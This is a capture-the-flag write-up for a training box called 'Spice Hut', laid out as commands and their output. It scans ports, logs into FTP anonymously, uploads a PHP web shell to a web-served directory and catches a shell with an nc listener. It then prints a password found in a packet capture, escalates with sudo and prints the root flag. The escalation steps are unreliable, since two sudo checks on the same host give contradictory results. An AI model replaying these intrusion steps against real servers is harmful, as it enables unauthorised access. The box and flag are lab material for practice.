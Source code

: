 Difficult: Easy
---------------------------------------
Note: - Abuse traditional vulnerabilities via untraditional means.
      - Welcom to Spice Hut!
      - We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. 
      - To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. 
      - We ask that you perform a thorough penetration test and try to own root. Good luck!
---------------------------------------

Reconnaissance:
+ We perform to scan the ports and enumurate the directories:

```bash
	nmap -sV -vv -A -p- -T4 <IP>
	PORT   STATE SERVICE REASON         VERSION
	21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
	| ftp-syst: 
	|   STAT: 
	| FTP server status:
	|      Connected to 10.11.101.46
	|      Logged in as ftp
	|      TYPE: ASCII
	|      No session bandwidth limit
	|      Session timeout in seconds is 300
	|      Control connection is plain text
	|      Data connections will be plain text
	|      At session startup, client count was 1
	|      vsFTPd 3.0.3 - secure, fast, stable
	|_End of status
	| ftp-anon: Anonymous FTP login allowed (FTP code 230)
	| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
	| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
	|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
	22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAzds8QxN5Q2TsERsJ98huSiuasmToUDi9JYWVegfTMV4Fn7t6/2ENm/9uYblUv+pLBnYeGo3XQGV23foZIIVMlLaC6ulYwuDOxy6KtHauVMlPRvYQd77xSCUqcM1ov9d00Y2y5eb7S6E7zIQCGFhm/jj5ui6bcr6wAIYtfpJ8UXnlHg5f/mJgwwAteQoUtxVgQWPsmfcmWvhreJ0/BF0kZJqi6uJUfOZHoUm4woJ15UYioryT6ZIw/ORL6l/LXy2RlhySNWi6P9y8UXrgKdViIlNCun7Cz80Cfc16za/8cdlthD1czxm4m5hSVwYYQK3C7mDZ0/jung0/AJzl48X1
	|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOKJ0cuq3nTYxoHlMcS3xvNisI5sKawbZHhAamhgDZTM989wIUonhYU19Jty5+fUoJKbaPIEBeMmA32XhHy+Y+E=
	|   256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPnFr/4W5WTyh9XBSykso6eSO6tE0Aio3gWM8Zdsckwo
	80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-title: Maintenance
	|_http-server-header: Apache/2.4.18 (Ubuntu)
```


```bash
	gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -xtxt -t64
	===============================================================
	Gobuster v3.6
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
	===============================================================
	[+] Url:                     http://<IP>/
	[+] Method:                  GET
	[+] Threads:                 64
	[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
	[+] Negative Status codes:   404
	[+] User Agent:              gobuster/3.6
	[+] Extensions:              txt
	[+] Timeout:                 10s
	===============================================================
	Starting gobuster in directory enumeration mode
	===============================================================
	/files                (Status: 301) [Size: 310] [--> http://10.10.23.91/files/]
	/index.html           (Status: 200) [Size: 808]
	/server-status        (Status: 403) [Size: 276]
	Progress: 9228 / 9230 (99.98%)
	===============================================================
	Finished
	===============================================================
```

+ First login ftp with Anonymous:

```bash
	ftp <IP>
	220 (vsFTPd 3.0.3)
	Name (10.10.90.128:zicco): Anonymous
	331 Please specify the password.
	Password: 
	230 Login successful.
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> ls
	229 Entering Extended Passive Mode (|||49748|)
	150 Here comes the directory listing.
	drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
	-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
	-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
``` 

+ Now we check /files http -> We understand the /files mount with ftp so we can put the file into the web server through ftp.
+ So idea that we can put file shell php into the web server to catch the open listner.

```bash
	ftp> cd ftp
	250 Directory successfully changed.
	ftp> put phpShell.php 
	local: phpShell.php remote: phpShell.php
	229 Entering Extended Passive Mode (|||52240|)
	150 Ok to send data.
	100% |***********************************|  2591        2.07 MiB/s    00:00 ETA
	226 Transfer complete.
	2591 bytes sent in 00:00 (5.69 KiB/s)
``` 
+ In port 80/http, we access url: '<IP>/files/ftp/<file_shell>' and open listner with 'nc -lvnp <port>'

```bash
	Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
	 16:04:57 up 4 min,  0 users,  load average: 0.00, 0.00, 0.00
	USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	bash: cannot set terminal process group (1207): Inappropriate ioctl for device
	bash: no job control in this shell
	www-data@startup:/$ id
	id
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
+ We try sudo -l and no tty. Now first we will upgrade interactive shell tty:

```bash
	python -c 'import pty;pty.spawn("/bin/bash")'
	Ctrl+Z
	stty raw -echo;fg
```
+ After interactive shell, let find more info
+ Look around we find the suspicious directory /incidents
+ Access /incidents we have file "suspicious.pcapng" -> With the format "pcapng", we can know that is the file capture by Wireshark.
+ Now we can move file to path /var/www/html/files/ftp which is not blocked by privilege server. And use Wireshark open to see file.
+ In Wireshark, we can export packet as Plain text that is easy to read the file. Open file, search word 'password' and go down to discover real password for user.
 - Or we can read directly file by cat command.
+ We had the real password: "c4ntg3t3n0ughsp1c3"
+ Login with user "lennie".
+ Go to /home/lennie, we have directory /scripts. List /scripts we have 2 files planner.sh and startup_list.txt, 2 files run with "root".
+ Now we need to read file planner.sh to see scripts inside but we cannot run nano. Exit the RCE and we use the password we found, Login again with SSH.
+ Login SSH with user "lennie" and run nano to read file 'planner.sh'

```bash
	$ nano planner.sh
		#!/bin/bash
		echo $LIST > /home/lennie/scripts/startup_list.txt
		/etc/print.sh
```
+ Read permission '/etc/print.sh' -> "-rwx------ 1 lennie lennie 45 Sep 21 14:03 /etc/print.sh" -> File run with permission user 'lennie':

```bash
	$ nano /etc/print.sh
		#!/bin/bash
		/bin/bash
	$ ./planner.sh
	./planner.sh: line 2: /home/lennie/scripts/startup_list.txt: Permission denied
	lennie@startup:~/scripts$ ls
	planner.sh  startup_list.txt
```

+ Try run "sudo -l":

```bash
	lennie@startup:~/scripts$ sudo -l
	sudo: unable to resolve host startup
	[sudo] password for lennie: 
	Sorry, user lennie may not run sudo on startup.
```
-> Can not run sudo with user 'lennie'
+ Now we can try find SUID binaries:

```bash
	lennie@startup:~/scripts$ find / -uid 0 -perm -4000 -type f 2>/dev/null
	/bin/mount
	/bin/fusermount
	/bin/umount
	/bin/ping6
	/bin/su
	/bin/ping
	/usr/bin/passwd
	/usr/bin/pkexec
	/usr/bin/sudo
	/usr/bin/newuidmap
	/usr/bin/chfn
	/usr/bin/newgrp
	/usr/bin/chsh
	/usr/bin/newgidmap
	/usr/bin/gpasswd
	/usr/lib/eject/dmcrypt-get-device
	/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
	/usr/lib/snapd/snap-confine
	/usr/lib/openssh/ssh-keysign
	/usr/lib/policykit-1/polkit-agent-helper-1
```
+ We guess can run sudo through /usr/bin/sudo
+ Now try again "/usr/bin/sudo -l":

```bash
	lennie@startup:~/scripts$ /usr/bin/sudo -l
	sudo: unable to resolve host startup
	[sudo] password for lennie: 
	Matching Defaults entries for lennie on startup:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User lennie may run the following commands on startup:
	    (ALL : ALL) ALL
```
-> It works!!!
+ Finally we will read flag root.txt

```bash
lennie@startup:~/scripts$ /usr/bin/sudo cat /root/root.txt
sudo: unable to resolve host startup
THM{f963aaa6a430f210222158ae15c3d76d}
```

END~~~!!!